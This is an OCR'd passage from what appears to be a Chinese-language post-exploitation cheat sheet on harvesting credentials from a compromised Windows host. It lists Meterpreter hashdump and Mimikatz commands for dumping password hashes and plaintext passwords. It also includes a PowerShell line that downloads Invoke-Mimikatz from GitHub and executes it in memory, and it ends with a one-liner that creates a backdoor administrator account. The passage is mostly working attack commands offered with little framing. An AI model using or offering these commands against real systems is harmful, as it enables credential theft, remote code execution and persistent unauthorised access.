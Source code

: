 #### 1.2 密码凭证获取

[Mimikatz 使用大全](https://www.cnblogs.com/-mo-/p/11890232.html)

```
hashdump
导出目标主机中的口令哈希值

load mimikatz
加载mimikatz模块

msv
ssp
tspkg
wdigest
获取登录密码的hash值

kerberos
获取明文密码

mimikatz\_command -f samdump::hashes
另一种方式获取哈希值

mimikatz\_command -f sekurlsa::searchPasswords
另一种方式获取明文密码


```

```
#Msf启用powershell
meterpreter > load powershell
meterpreter > powershell\_shell
PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
Ps > Invoke-Mimikatz -DumpCreds


```

发现远程登录密码等密码 netpass.exe

下载见：[https://www.nirsoft.net/utils/network\_password\_recovery.html](https://www.nirsoft.net/utils/network_password_recovery.html)  
![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200326170652128-962469381.png)

### 0x02 用户操作

```
#添加user
net user admin1 admin1 /add & net localgroup administrators admin1 /add


```
